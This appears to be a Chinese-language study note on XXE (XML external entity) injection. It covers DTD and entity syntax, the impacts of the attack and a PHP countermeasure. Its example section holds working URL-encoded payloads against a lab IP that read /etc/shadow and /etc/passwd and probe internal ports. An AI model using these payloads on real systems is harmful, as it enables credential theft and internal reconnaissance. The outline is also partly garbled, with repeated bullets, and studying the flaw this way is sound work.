

XXE
- XML
- 基础知识
- XML中可以引入外部文件
- DTD（文档类型定义）的作用是定义 XML 文档的合法构建模块。DTD 可以在 XML 文档内声明，也可以外部引用
- 引用外部DTD
<!DOCTYPE 根元素 SYSTEM "文件名">- 或者
<!DOCTYPE 根元素 PUBLIC "public_ID" "文件名">
- 引用外部实体
<!ENTITY 实体名称 SYSTEM "URI">- 或者
<!ENTITY 实体名称 PUBLIC "public_ID""URI">
- 当允许引用外部实体时，通过构造恶意内容，可导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等危害
- 不同程序支持的协议不一样
- 
- 不同程序支持的协议不一样
- XML中可以引入外部文件
- 基础知识
XXE=XML eXternal Entity=XML外部实体->XML外部实体注入->XXE漏洞- 2017年的
OWSAP10之一 - 含义：
- 一种针对解析XML输入的应用程序的攻击。
- 它实质上是另一种注入类型攻击
- 如果正确利用，可能非常严重。
- 当包含对外部实体的引用的XML输入是 由弱配置的XML解析器处理时该攻击就会发生。
- 这种攻击可能导致从解析器所在机器泄漏机密数据，拒绝服务，服务器端请求伪造，端口扫描，以及其他一些系统影响，如亿笑-Dos攻击
XXE漏洞利用举例
http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM "file%3A%2F%2F%2Fetc%2Fshadow">]><root>%26xxe%3B<%2Froot> http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM"file%3A%2F%2F%2Fetc%2Fpasswd">]><root>%26xxe%3B<%2Froot> http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM"http%3A%2f%2f192.168.0.145%3A22%2f123">]><root>%26xxe%3B<%2Froot> http://192.168.0.145:65412/?xml=<!DOCTYPEexample [<!ENTITY xxe SYSTEM "http%3A%2f%2f192.168.0.145%3A23%2f123">]><root>%26xxe%3B<%2Froot>- 对策
- 举例
- PHP
- 禁用外部实体：
libxml_disable_entity_loader设置为TRUE
- 禁用外部实体：
- PHP
- 举例
- 2017年的